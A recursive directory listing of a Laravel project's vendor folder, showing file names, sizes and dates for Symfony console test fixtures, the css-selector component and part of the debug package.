-rw-r--r--  1 www-data www-data 1.3K Apr  4  2017 MarkdownDescriptorTest.php
-rw-r--r--  1 www-data www-data 3.8K Apr  4  2017 ObjectsProvider.php
-rw-r--r--  1 www-data www-data 1.3K Apr  4  2017 TextDescriptorTest.php
-rw-r--r--  1 www-data www-data  566 Apr  4  2017 XmlDescriptorTest.php

/var/www/laravel/vendor/symfony/console/Tests/Fixtures:
total 536K
drwxr-xr-x  3 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r--  1 www-data www-data  177 Apr  4  2017 BarBucCommand.php
-rw-r--r--  1 www-data www-data  388 Apr  4  2017 DescriptorApplication1.php
-rw-r--r--  1 www-data www-data  635 Apr  4  2017 DescriptorApplication2.php
-rw-r--r--  1 www-data www-data  550 Apr  4  2017 DescriptorApplicationMbString.php
-rw-r--r--  1 www-data www-data  646 Apr  4  2017 DescriptorCommand1.php
-rw-r--r--  1 www-data www-data  932 Apr  4  2017 DescriptorCommand2.php
-rw-r--r--  1 www-data www-data  624 Apr  4  2017 DescriptorCommand3.php
-rw-r--r--  1 www-data www-data  951 Apr  4  2017 DescriptorCommandMbString.php
-rw-r--r--  1 www-data www-data  802 Apr  4  2017 DummyOutput.php
-rw-r--r--  1 www-data www-data  597 Apr  4  2017 Foo1Command.php
-rw-r--r--  1 www-data www-data  493 Apr  4  2017 Foo2Command.php
-rw-r--r--  1 www-data www-data  835 Apr  4  2017 Foo3Command.php
-rw-r--r--  1 www-data www-data  180 Apr  4  2017 Foo4Command.php
-rw-r--r--  1 www-data www-data  139 Apr  4  2017 Foo5Command.php
-rw-r--r--  1 www-data www-data  213 Apr  4  2017 Foo6Command.php
-rw-r--r--  1 www-data www-data  768 Apr  4  2017 FooCommand.php
-rw-r--r--  1 www-data www-data  613 Apr  4  2017 FooLock2Command.php
-rw-r--r--  1 www-data www-data  562 Apr  4  2017 FooLockCommand.php
-rw-r--r--  1 www-data www-data  617 Apr  4  2017 FooSubnamespaced1Command.php
-rw-r--r--  1 www-data www-data  615 Apr  4  2017 FooSubnamespaced2Command.php
-rw-r--r--  1 www-data www-data  559 Apr  4  2017 FoobarCommand.php
drwxr-xr-x  3 www-data www-data 4.0K Apr  4  2017 Style
-rw-r--r--  1 www-data www-data  698 Apr  4  2017 TestCommand.php
-rw-r--r--  1 www-data www-data 6.7K Apr  4  2017 application_1.json
-rw-r--r--  1 www-data www-data 3.4K Apr  4  2017 application_1.md
-rw-r--r--  1 www-data www-data  743 Apr  4  2017 application_1.txt
-rw-r--r--  1 www-data www-data 4.4K Apr  4  2017 application_1.xml
-rw-r--r--  1 www-data www-data  15K Apr  4  2017 application_2.json
-rw-r--r--  1 www-data www-data 6.8K Apr  4  2017 application_2.md
-rw-r--r--  1 www-data www-data  964 Apr  4  2017 application_2.txt
-rw-r--r--  1 www-data www-data 8.5K Apr  4  2017 application_2.xml
-rw-r--r--  1 www-data www-data   12 Apr  4  2017 application_gethelp.txt
-rw-r--r--  1 www-data www-data 5.3K Apr  4  2017 application_mbstring.md
-rw-r--r--  1 www-data www-data  865 Apr  4  2017 application_mbstring.txt
-rw-r--r--  1 www-data www-data  270 Apr  4  2017 application_renderexception1.txt
-rw-r--r--  1 www-data www-data  313 Apr  4  2017 application_renderexception2.txt
-rw-r--r--  1 www-data www-data  554 Apr  4  2017 application_renderexception3.txt
-rw-r--r--  1 www-data www-data  756 Apr  4  2017 application_renderexception3decorated.txt
-rw-r--r--  1 www-data www-data  337 Apr  4  2017 application_renderexception4.txt
-rw-r--r--  1 www-data www-data   99 Apr  4  2017 application_renderexception_doublewidth1.txt
-rw-r--r--  1 www-data www-data  173 Apr  4  2017 application_renderexception_doublewidth1decorated.txt
-rw-r--r--  1 www-data www-data  182 Apr  4  2017 application_renderexception_doublewidth2.txt
-rw-r--r--  1 www-data www-data  117 Apr  4  2017 application_renderexception_escapeslines.txt
-rw-r--r--  1 www-data www-data  569 Apr  4  2017 application_run1.txt
-rw-r--r--  1 www-data www-data  665 Apr  4  2017 application_run2.txt
-rw-r--r--  1 www-data www-data  665 Apr  4  2017 application_run3.txt
-rw-r--r--  1 www-data www-data   13 Apr  4  2017 application_run4.txt
-rw-r--r--  1 www-data www-data  274 Apr  4  2017 command_1.json
-rw-r--r--  1 www-data www-data  156 Apr  4  2017 command_1.md
-rw-r--r--  1 www-data www-data  109 Apr  4  2017 command_1.txt
-rw-r--r--  1 www-data www-data  335 Apr  4  2017 command_1.xml
-rw-r--r--  1 www-data www-data  939 Apr  4  2017 command_2.json
-rw-r--r--  1 www-data www-data  580 Apr  4  2017 command_2.md
-rw-r--r--  1 www-data www-data  345 Apr  4  2017 command_2.txt
-rw-r--r--  1 www-data www-data  778 Apr  4  2017 command_2.xml
-rw-r--r--  1 www-data www-data  589 Apr  4  2017 command_mbstring.md
-rw-r--r--  1 www-data www-data  347 Apr  4  2017 command_mbstring.txt
-rw-r--r--  1 www-data www-data  124 Apr  4  2017 input_argument_1.json
-rw-r--r--  1 www-data www-data  116 Apr  4  2017 input_argument_1.md
-rw-r--r--  1 www-data www-data   29 Apr  4  2017 input_argument_1.txt
-rw-r--r--  1 www-data www-data  156 Apr  4  2017 input_argument_1.xml
-rw-r--r--  1 www-data www-data  142 Apr  4  2017 input_argument_2.json
-rw-r--r--  1 www-data www-data  134 Apr  4  2017 input_argument_2.md
-rw-r--r--  1 www-data www-data   51 Apr  4  2017 input_argument_2.txt
-rw-r--r--  1 www-data www-data  176 Apr  4  2017 input_argument_2.xml
-rw-r--r--  1 www-data www-data  156 Apr  4  2017 input_argument_3.json
-rw-r--r--  1 www-data www-data  140 Apr  4  2017 input_argument_3.md
-rw-r--r--  1 www-data www-data   97 Apr  4  2017 input_argument_3.txt
-rw-r--r--  1 www-data www-data  226 Apr  4  2017 input_argument_3.xml
-rw-r--r--  1 www-data www-data  154 Apr  4  2017 input_argument_4.json
-rw-r--r--  1 www-data www-data  142 Apr  4  2017 input_argument_4.md
-rw-r--r--  1 www-data www-data   78 Apr  4  2017 input_argument_4.txt
-rw-r--r--  1 www-data www-data  186 Apr  4  2017 input_argument_4.xml
-rw-r--r--  1 www-data www-data  160 Apr  4  2017 input_argument_with_style.json
-rw-r--r--  1 www-data www-data  144 Apr  4  2017 input_argument_with_style.md
-rw-r--r--  1 www-data www-data  103 Apr  4  2017 input_argument_with_style.txt
-rw-r--r--  1 www-data www-data  242 Apr  4  2017 input_argument_with_style.xml
-rw-r--r--  1 www-data www-data   43 Apr  4  2017 input_definition_1.json
-rw-r--r--  1 www-data www-data    0 Apr  4  2017 input_definition_1.md
-rw-r--r--  1 www-data www-data    0 Apr  4  2017 input_definition_1.txt
-rw-r--r--  1 www-data www-data   94 Apr  4  2017 input_definition_1.xml
-rw-r--r--  1 www-data www-data  245 Apr  4  2017 input_definition_2.json
-rw-r--r--  1 www-data www-data  132 Apr  4  2017 input_definition_2.md
-rw-r--r--  1 www-data www-data   59 Apr  4  2017 input_definition_2.txt
-rw-r--r--  1 www-data www-data  241 Apr  4  2017 input_definition_2.xml
-rw-r--r--  1 www-data www-data  319 Apr  4  2017 input_definition_3.json
-rw-r--r--  1 www-data www-data  175 Apr  4  2017 input_definition_3.md
-rw-r--r--  1 www-data www-data   61 Apr  4  2017 input_definition_3.txt
-rw-r--r--  1 www-data www-data  257 Apr  4  2017 input_definition_3.xml
-rw-r--r--  1 www-data www-data  521 Apr  4  2017 input_definition_4.json
-rw-r--r--  1 www-data www-data  308 Apr  4  2017 input_definition_4.md
-rw-r--r--  1 www-data www-data  127 Apr  4  2017 input_definition_4.txt
-rw-r--r--  1 www-data www-data  404 Apr  4  2017 input_definition_4.xml
-rw-r--r--  1 www-data www-data  184 Apr  4  2017 input_option_1.json
-rw-r--r--  1 www-data www-data  161 Apr  4  2017 input_option_1.md
-rw-r--r--  1 www-data www-data   33 Apr  4  2017 input_option_1.txt
-rw-r--r--  1 www-data www-data  178 Apr  4  2017 input_option_1.xml
-rw-r--r--  1 www-data www-data  211 Apr  4  2017 input_option_2.json
-rw-r--r--  1 www-data www-data  184 Apr  4  2017 input_option_2.md
-rw-r--r--  1 www-data www-data  113 Apr  4  2017 input_option_2.txt
-rw-r--r--  1 www-data www-data  260 Apr  4  2017 input_option_2.xml
-rw-r--r--  1 www-data www-data  199 Apr  4  2017 input_option_3.json
-rw-r--r--  1 www-data www-data  174 Apr  4  2017 input_option_3.md
-rw-r--r--  1 www-data www-data   65 Apr  4  2017 input_option_3.txt
-rw-r--r--  1 www-data www-data  210 Apr  4  2017 input_option_3.xml
-rw-r--r--  1 www-data www-data  197 Apr  4  2017 input_option_4.json
-rw-r--r--  1 www-data www-data  178 Apr  4  2017 input_option_4.md
-rw-r--r--  1 www-data www-data  112 Apr  4  2017 input_option_4.txt
-rw-r--r--  1 www-data www-data  210 Apr  4  2017 input_option_4.xml
-rw-r--r--  1 www-data www-data  209 Apr  4  2017 input_option_5.json
-rw-r--r--  1 www-data www-data  186 Apr  4  2017 input_option_5.md
-rw-r--r--  1 www-data www-data  108 Apr  4  2017 input_option_5.txt
-rw-r--r--  1 www-data www-data  220 Apr  4  2017 input_option_5.xml
-rw-r--r--  1 www-data www-data  214 Apr  4  2017 input_option_6.json
-rw-r--r--  1 www-data www-data  189 Apr  4  2017 input_option_6.md
-rw-r--r--  1 www-data www-data   79 Apr  4  2017 input_option_6.txt
-rw-r--r--  1 www-data www-data  240 Apr  4  2017 input_option_6.xml
-rw-r--r--  1 www-data www-data  214 Apr  4  2017 input_option_with_style.json
-rw-r--r--  1 www-data www-data  189 Apr  4  2017 input_option_with_style.md
-rw-r--r--  1 www-data www-data  117 Apr  4  2017 input_option_with_style.txt
-rw-r--r--  1 www-data www-data  276 Apr  4  2017 input_option_with_style.xml
-rw-r--r--  1 www-data www-data  266 Apr  4  2017 input_option_with_style_array.json
-rw-r--r--  1 www-data www-data  241 Apr  4  2017 input_option_with_style_array.md
-rw-r--r--  1 www-data www-data  194 Apr  4  2017 input_option_with_style_array.txt
-rw-r--r--  1 www-data www-data  337 Apr  4  2017 input_option_with_style_array.xml

/var/www/laravel/vendor/symfony/console/Tests/Fixtures/Style:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  4  2017 ..
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 SymfonyStyle

/var/www/laravel/vendor/symfony/console/Tests/Fixtures/Style/SymfonyStyle:
total 16K
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  4  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 command
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 output

/var/www/laravel/vendor/symfony/console/Tests/Fixtures/Style/SymfonyStyle/command:
total 84K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data  400 Apr  4  2017 command_0.php
-rw-r--r-- 1 www-data www-data  450 Apr  4  2017 command_1.php
-rw-r--r-- 1 www-data www-data  934 Apr  4  2017 command_10.php
-rw-r--r-- 1 www-data www-data  607 Apr  4  2017 command_11.php
-rw-r--r-- 1 www-data www-data  883 Apr  4  2017 command_12.php
-rw-r--r-- 1 www-data www-data  894 Apr  4  2017 command_13.php
-rw-r--r-- 1 www-data www-data  893 Apr  4  2017 command_14.php
-rw-r--r-- 1 www-data www-data  853 Apr  4  2017 command_15.php
-rw-r--r-- 1 www-data www-data  890 Apr  4  2017 command_16.php
-rw-r--r-- 1 www-data www-data  478 Apr  4  2017 command_17.php
-rw-r--r-- 1 www-data www-data  563 Apr  4  2017 command_2.php
-rw-r--r-- 1 www-data www-data  404 Apr  4  2017 command_3.php
-rw-r--r-- 1 www-data www-data 1.2K Apr  4  2017 command_4.php
-rw-r--r-- 1 www-data www-data 1.1K Apr  4  2017 command_5.php
-rw-r--r-- 1 www-data www-data  548 Apr  4  2017 command_6.php
-rw-r--r-- 1 www-data www-data  666 Apr  4  2017 command_7.php
-rw-r--r-- 1 www-data www-data  834 Apr  4  2017 command_8.php
-rw-r--r-- 1 www-data www-data  486 Apr  4  2017 command_9.php
-rw-r--r-- 1 www-data www-data  595 Apr  4  2017 interactive_command_1.php

/var/www/laravel/vendor/symfony/console/Tests/Fixtures/Style/SymfonyStyle/output:
total 84K
drwxr-xr-x 2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r-- 1 www-data www-data   74 Apr  4  2017 interactive_output_1.txt
-rw-r--r-- 1 www-data www-data  123 Apr  4  2017 output_0.txt
-rw-r--r-- 1 www-data www-data  149 Apr  4  2017 output_1.txt
-rw-r--r-- 1 www-data www-data  607 Apr  4  2017 output_10.txt
-rw-r--r-- 1 www-data www-data  246 Apr  4  2017 output_11.txt
-rw-r--r-- 1 www-data www-data  486 Apr  4  2017 output_12.txt
-rw-r--r-- 1 www-data www-data  727 Apr  4  2017 output_13.txt
-rw-r--r-- 1 www-data www-data  486 Apr  4  2017 output_14.txt
-rw-r--r-- 1 www-data www-data  607 Apr  4  2017 output_15.txt
-rw-r--r-- 1 www-data www-data  824 Apr  4  2017 output_16.txt
-rw-r--r-- 1 www-data www-data   87 Apr  4  2017 output_17.txt
-rw-r--r-- 1 www-data www-data  733 Apr  4  2017 output_2.txt
-rw-r--r-- 1 www-data www-data   53 Apr  4  2017 output_3.txt
-rw-r--r-- 1 www-data www-data  324 Apr  4  2017 output_4.txt
-rw-r--r-- 1 www-data www-data  655 Apr  4  2017 output_5.txt
-rw-r--r-- 1 www-data www-data  185 Apr  4  2017 output_6.txt
-rw-r--r-- 1 www-data www-data   78 Apr  4  2017 output_7.txt
-rw-r--r-- 1 www-data www-data  457 Apr  4  2017 output_8.txt
-rw-r--r-- 1 www-data www-data  365 Apr  4  2017 output_9.txt

/var/www/laravel/vendor/symfony/console/Tests/Formatter:
total 32K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r--  1 www-data www-data 2.2K Apr  4  2017 OutputFormatterStyleStackTest.php
-rw-r--r--  1 www-data www-data 4.1K Apr  4  2017 OutputFormatterStyleTest.php
-rw-r--r--  1 www-data www-data  11K Apr  4  2017 OutputFormatterTest.php

/var/www/laravel/vendor/symfony/console/Tests/Helper:
total 156K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r--  1 www-data www-data  941 Apr  4  2017 AbstractQuestionHelperTest.php
-rw-r--r--  1 www-data www-data 4.4K Apr  4  2017 FormatterHelperTest.php
-rw-r--r--  1 www-data www-data 5.5K Apr  4  2017 HelperSetTest.php
-rw-r--r--  1 www-data www-data 1.5K Apr  4  2017 HelperTest.php
-rw-r--r--  1 www-data www-data 4.8K Apr  4  2017 ProcessHelperTest.php
-rw-r--r--  1 www-data www-data  26K Apr  4  2017 ProgressBarTest.php
-rw-r--r--  1 www-data www-data 5.3K Apr  4  2017 ProgressIndicatorTest.php
-rw-r--r--  1 www-data www-data  35K Apr  4  2017 QuestionHelperTest.php
-rw-r--r--  1 www-data www-data 7.3K Apr  4  2017 SymfonyQuestionHelperTest.php
-rw-r--r--  1 www-data www-data  739 Apr  4  2017 TableStyleTest.php
-rw-r--r--  1 www-data www-data  29K Apr  4  2017 TableTest.php

/var/www/laravel/vendor/symfony/console/Tests/Input:
total 92K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r--  1 www-data www-data  20K Apr  4  2017 ArgvInputTest.php
-rw-r--r--  1 www-data www-data 7.0K Apr  4  2017 ArrayInputTest.php
-rw-r--r--  1 www-data www-data 4.5K Apr  4  2017 InputArgumentTest.php
-rw-r--r--  1 www-data www-data  17K Apr  4  2017 InputDefinitionTest.php
-rw-r--r--  1 www-data www-data 9.3K Apr  4  2017 InputOptionTest.php
-rw-r--r--  1 www-data www-data 6.2K Apr  4  2017 InputTest.php
-rw-r--r--  1 www-data www-data 4.6K Apr  4  2017 StringInputTest.php

/var/www/laravel/vendor/symfony/console/Tests/Logger:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r--  1 www-data www-data 7.5K Apr  4  2017 ConsoleLoggerTest.php

/var/www/laravel/vendor/symfony/console/Tests/Output:
total 28K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r--  1 www-data www-data 1.4K Apr  4  2017 ConsoleOutputTest.php
-rw-r--r--  1 www-data www-data 2.6K Apr  4  2017 NullOutputTest.php
-rw-r--r--  1 www-data www-data 6.4K Apr  4  2017 OutputTest.php
-rw-r--r--  1 www-data www-data 1.8K Apr  4  2017 StreamOutputTest.php

/var/www/laravel/vendor/symfony/console/Tests/Style:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r--  1 www-data www-data 2.3K Apr  4  2017 SymfonyStyleTest.php

/var/www/laravel/vendor/symfony/console/Tests/Tester:
total 20K
drwxr-xr-x  2 www-data www-data 4.0K Apr  4  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Apr  4  2017 ..
-rw-r--r--  1 www-data www-data 2.4K Apr  4  2017 ApplicationTesterTest.php
-rw-r--r--  1 www-data www-data 5.6K Apr  4  2017 CommandTesterTest.php

/var/www/laravel/vendor/symfony/css-selector:
total 56K
drwxr-xr-x  7 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   34 Feb 21  2017 .gitignore
-rw-r--r--  1 www-data www-data  198 Feb 21  2017 CHANGELOG.md
-rw-r--r--  1 www-data www-data 2.0K Feb 21  2017 CssSelectorConverter.php
drwxr-xr-x  2 www-data www-data 4.0K Feb 21  2017 Exception
-rw-r--r--  1 www-data www-data 1.1K Feb 21  2017 LICENSE
drwxr-xr-x  2 www-data www-data 4.0K Feb 21  2017 Node
drwxr-xr-x  5 www-data www-data 4.0K Feb 21  2017 Parser
-rw-r--r--  1 www-data www-data  693 Feb 21  2017 README.md
drwxr-xr-x  5 www-data www-data 4.0K Feb 21  2017 Tests
drwxr-xr-x  3 www-data www-data 4.0K Feb 21  2017 XPath
-rw-r--r--  1 www-data www-data  893 Feb 21  2017 composer.json
-rw-r--r--  1 www-data www-data  831 Feb 21  2017 phpunit.xml.dist

/var/www/laravel/vendor/symfony/css-selector/Exception:
total 28K
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  576 Feb 21  2017 ExceptionInterface.php
-rw-r--r-- 1 www-data www-data  641 Feb 21  2017 ExpressionErrorException.php
-rw-r--r-- 1 www-data www-data  639 Feb 21  2017 InternalErrorException.php
-rw-r--r-- 1 www-data www-data  638 Feb 21  2017 ParseException.php
-rw-r--r-- 1 www-data www-data 1.8K Feb 21  2017 SyntaxErrorException.php

/var/www/laravel/vendor/symfony/css-selector/Node:
total 56K
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  934 Feb 21  2017 AbstractNode.php
-rw-r--r-- 1 www-data www-data 2.6K Feb 21  2017 AttributeNode.php
-rw-r--r-- 1 www-data www-data 1.5K Feb 21  2017 ClassNode.php
-rw-r--r-- 1 www-data www-data 2.0K Feb 21  2017 CombinedSelectorNode.php
-rw-r--r-- 1 www-data www-data 1.6K Feb 21  2017 ElementNode.php
-rw-r--r-- 1 www-data www-data 2.1K Feb 21  2017 FunctionNode.php
-rw-r--r-- 1 www-data www-data 1.5K Feb 21  2017 HashNode.php
-rw-r--r-- 1 www-data www-data 1.7K Feb 21  2017 NegationNode.php
-rw-r--r-- 1 www-data www-data  934 Feb 21  2017 NodeInterface.php
-rw-r--r-- 1 www-data www-data 1.6K Feb 21  2017 PseudoNode.php
-rw-r--r-- 1 www-data www-data 1.7K Feb 21  2017 SelectorNode.php
-rw-r--r-- 1 www-data www-data 2.2K Feb 21  2017 Specificity.php

/var/www/laravel/vendor/symfony/css-selector/Parser:
total 52K
drwxr-xr-x 5 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 Handler
-rw-r--r-- 1 www-data www-data  13K Feb 21  2017 Parser.php
-rw-r--r-- 1 www-data www-data  831 Feb 21  2017 ParserInterface.php
-rw-r--r-- 1 www-data www-data 2.3K Feb 21  2017 Reader.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 Shortcut
-rw-r--r-- 1 www-data www-data 3.0K Feb 21  2017 Token.php
-rw-r--r-- 1 www-data www-data 3.6K Feb 21  2017 TokenStream.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 Tokenizer

/var/www/laravel/vendor/symfony/css-selector/Parser/Handler:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 21  2017 ..
-rw-r--r-- 1 www-data www-data 1.2K Feb 21  2017 CommentHandler.php
-rw-r--r-- 1 www-data www-data  881 Feb 21  2017 HandlerInterface.php
-rw-r--r-- 1 www-data www-data 1.8K Feb 21  2017 HashHandler.php
-rw-r--r-- 1 www-data www-data 1.8K Feb 21  2017 IdentifierHandler.php
-rw-r--r-- 1 www-data www-data 1.5K Feb 21  2017 NumberHandler.php
-rw-r--r-- 1 www-data www-data 2.6K Feb 21  2017 StringHandler.php
-rw-r--r-- 1 www-data www-data 1.2K Feb 21  2017 WhitespaceHandler.php

/var/www/laravel/vendor/symfony/css-selector/Parser/Shortcut:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 21  2017 ..
-rw-r--r-- 1 www-data www-data 1.6K Feb 21  2017 ClassParser.php
-rw-r--r-- 1 www-data www-data 1.4K Feb 21  2017 ElementParser.php
-rw-r--r-- 1 www-data www-data 1.2K Feb 21  2017 EmptyStringParser.php
-rw-r--r-- 1 www-data www-data 1.6K Feb 21  2017 HashParser.php

/var/www/laravel/vendor/symfony/css-selector/Parser/Tokenizer:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 21  2017 ..
-rw-r--r-- 1 www-data www-data 2.1K Feb 21  2017 Tokenizer.php
-rw-r--r-- 1 www-data www-data 2.0K Feb 21  2017 TokenizerEscaping.php
-rw-r--r-- 1 www-data www-data 3.4K Feb 21  2017 TokenizerPatterns.php

/var/www/laravel/vendor/symfony/css-selector/Tests:
total 24K
drwxr-xr-x 5 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 3.2K Feb 21  2017 CssSelectorConverterTest.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 Node
drwxr-xr-x 4 www-data www-data 4.0K Feb 21  2017 Parser
drwxr-xr-x 3 www-data www-data 4.0K Feb 21  2017 XPath

/var/www/laravel/vendor/symfony/css-selector/Tests/Node:
total 52K
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 21  2017 ..
-rw-r--r-- 1 www-data www-data  975 Feb 21  2017 AbstractNodeTest.php
-rw-r--r-- 1 www-data www-data 1.5K Feb 21  2017 AttributeNodeTest.php
-rw-r--r-- 1 www-data www-data  872 Feb 21  2017 ClassNodeTest.php
-rw-r--r-- 1 www-data www-data 1.3K Feb 21  2017 CombinedSelectorNodeTest.php
-rw-r--r-- 1 www-data www-data  963 Feb 21  2017 ElementNodeTest.php
-rw-r--r-- 1 www-data www-data 1.7K Feb 21  2017 FunctionNodeTest.php
-rw-r--r-- 1 www-data www-data  854 Feb 21  2017 HashNodeTest.php
-rw-r--r-- 1 www-data www-data  947 Feb 21  2017 NegationNodeTest.php
-rw-r--r-- 1 www-data www-data  799 Feb 21  2017 PseudoNodeTest.php
-rw-r--r-- 1 www-data www-data  948 Feb 21  2017 SelectorNodeTest.php
-rw-r--r-- 1 www-data www-data 2.2K Feb 21  2017 SpecificityTest.php

/var/www/laravel/vendor/symfony/css-selector/Tests/Parser:
total 40K
drwxr-xr-x 4 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 21  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 Handler
-rw-r--r-- 1 www-data www-data  13K Feb 21  2017 ParserTest.php
-rw-r--r-- 1 www-data www-data 2.9K Feb 21  2017 ReaderTest.php
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 Shortcut
-rw-r--r-- 1 www-data www-data 3.3K Feb 21  2017 TokenStreamTest.php

/var/www/laravel/vendor/symfony/css-selector/Tests/Parser/Handler:
total 36K
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Feb 21  2017 ..
-rw-r--r-- 1 www-data www-data 2.3K Feb 21  2017 AbstractHandlerTest.php
-rw-r--r-- 1 www-data www-data 1.6K Feb 21  2017 CommentHandlerTest.php
-rw-r--r-- 1 www-data www-data 1.4K Feb 21  2017 HashHandlerTest.php
-rw-r--r-- 1 www-data www-data 1.6K Feb 21  2017 IdentifierHandlerTest.php
-rw-r--r-- 1 www-data www-data 1.5K Feb 21  2017 NumberHandlerTest.php
-rw-r--r-- 1 www-data www-data 1.5K Feb 21  2017 StringHandlerTest.php
-rw-r--r-- 1 www-data www-data 1.2K Feb 21  2017 WhitespaceHandlerTest.php

/var/www/laravel/vendor/symfony/css-selector/Tests/Parser/Shortcut:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Feb 21  2017 ..
-rw-r--r-- 1 www-data www-data 1.4K Feb 21  2017 ClassParserTest.php
-rw-r--r-- 1 www-data www-data 1.3K Feb 21  2017 ElementParserTest.php
-rw-r--r-- 1 www-data www-data 1023 Feb 21  2017 EmptyStringParserTest.php
-rw-r--r-- 1 www-data www-data 1.4K Feb 21  2017 HashParserTest.php

/var/www/laravel/vendor/symfony/css-selector/Tests/XPath:
total 32K
drwxr-xr-x 3 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Feb 21  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 Fixtures
-rw-r--r-- 1 www-data www-data  17K Feb 21  2017 TranslatorTest.php

/var/www/laravel/vendor/symfony/css-selector/Tests/XPath/Fixtures:
total 32K
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 21  2017 ..
-rw-r--r-- 1 www-data www-data 1.6K Feb 21  2017 ids.html
-rw-r--r-- 1 www-data www-data  317 Feb 21  2017 lang.xml
-rw-r--r-- 1 www-data www-data  15K Feb 21  2017 shakespear.html

/var/www/laravel/vendor/symfony/css-selector/XPath:
total 32K
drwxr-xr-x 3 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 7 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 Extension
-rw-r--r-- 1 www-data www-data 8.3K Feb 21  2017 Translator.php
-rw-r--r-- 1 www-data www-data 1.2K Feb 21  2017 TranslatorInterface.php
-rw-r--r-- 1 www-data www-data 2.8K Feb 21  2017 XPathExpr.php

/var/www/laravel/vendor/symfony/css-selector/XPath/Extension:
total 56K
drwxr-xr-x 2 www-data www-data 4.0K Feb 21  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Feb 21  2017 ..
-rw-r--r-- 1 www-data www-data 1.3K Feb 21  2017 AbstractExtension.php
-rw-r--r-- 1 www-data www-data 4.7K Feb 21  2017 AttributeMatchingExtension.php
-rw-r--r-- 1 www-data www-data 2.4K Feb 21  2017 CombinationExtension.php
-rw-r--r-- 1 www-data www-data 1.5K Feb 21  2017 ExtensionInterface.php
-rw-r--r-- 1 www-data www-data 6.0K Feb 21  2017 FunctionExtension.php
-rw-r--r-- 1 www-data www-data 6.6K Feb 21  2017 HtmlExtension.php
-rw-r--r-- 1 www-data www-data 7.1K Feb 21  2017 NodeExtension.php
-rw-r--r-- 1 www-data www-data 4.0K Feb 21  2017 PseudoClassExtension.php

/var/www/laravel/vendor/symfony/debug:
total 112K
drwxr-xr-x  6 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 15 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r--  1 www-data www-data   34 Mar 29  2017 .gitignore
-rw-r--r--  1 www-data www-data  752 Mar 29  2017 BufferingLogger.php
-rw-r--r--  1 www-data www-data 1.2K Mar 29  2017 CHANGELOG.md
-rw-r--r--  1 www-data www-data 1.8K Mar 29  2017 Debug.php
-rw-r--r--  1 www-data www-data  12K Mar 29  2017 DebugClassLoader.php
